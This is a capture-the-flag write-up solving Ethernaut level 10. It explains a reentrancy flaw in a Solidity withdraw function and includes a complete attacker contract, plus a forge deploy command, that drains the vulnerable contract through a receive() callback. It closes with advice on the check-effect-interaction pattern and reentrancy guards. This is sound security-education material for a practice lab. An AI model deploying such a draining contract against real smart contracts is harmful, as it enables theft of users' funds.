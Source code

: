 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/10-reentrancy.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 10 - Reentrancy</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 10 - Reentrancy](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-10-reentrancy)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals

<img src="../assets/requirements/10-reentrancy-requirements.webp" width="800px"/>

## The hack

In this level, we have to drain all the funds from the contract. We have to be familiar with reentrancy attacks, and that is what this very simple example is for.

A reentrancy attack can happen after an external call to another contract. For instance, upon receiving ether, the contract can respond to the transfer. That is when we can "reenter" the contract. And that is why the "Check-Effect-Interaction" pattern or CEI matters.

In this case, the `msg.sender`'s balance is updated AFTER the external call, which leaves the door open for a reentrancy attack.

```javascript
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

How does the attack work?

Since the balance is updated after the external call, we can call the `withdraw` function, and reenter the contract via a `fallback()` function upon receiving ether. At this point, despite having already withdrawn our balance, we can withdraw again since the state hasn't been updated yet!

```javascript
// This will always be true
balances[msg.sender] >= _amount;
```

We can repeat this process until the contract is drained. The withdraw function will finally finish its execution and update our balance... a little too late.

Hence the CEI:

- <b>Check: Make sure all your inputs and conditions are correct.
- Effect: Update all states.
- Interaction: Interact with other contracts.</b>

## Solution

Let's take advantage of the `withdraw` function to reenter the contract and drain it since it lacks a proper CEI pattern.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract Reentered {
    address private immutable target;
    uint256 donation = 0.001 ether;

    constructor(address _target) public {
        target = _target;
    }

    receive() external payable {
        if (target.balance >= donation) {
            IReentrance(target).withdraw(donation);
        }
    }

    function attack() public payable {
        // 1. Donate so you have some funds to withdraw
        IReentrance(target).donate{value: donation}(address(this));
        // 2. Call the withdraw function to start the reentrancy
        IReentrance(target).withdraw(donation);
        // 3. The contract has been drained successfully
        require(address(target).balance == 0, "Reentrancy failed!");
        // 4. Withdraw the funds from the attacker contract
        withdraw();
    }

    function withdraw() public {
        uint256 bal = address(this).balance;
        (bool success, ) = msg.sender.call{value: bal}("");
        require(success, "Transfer Failed");
    }
}
```

Then, you can use forge scripts to deploy this contract and call the `attack` function:

```bash
forge script script/10_Reentrancy.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

> Note: Since the contract starts with `0.001 ether`, leaving its balance at 0 is fairly simple. For a more "realistic" approach, you would have to improve the calculation's method to drain the contract's balance entirely.

## Takeaway

- <b>CHECK-EFFECT-INTERACTION pattern</b> must be systematically followed.
- Use a reentrancy guard if in doubt. Better safe than sorry.

## Reference

- The DAO hack: https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942
- Advanced reentrancy on Curve pools: https://hackmd.io/@vyperlang/HJUgNMhs2

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
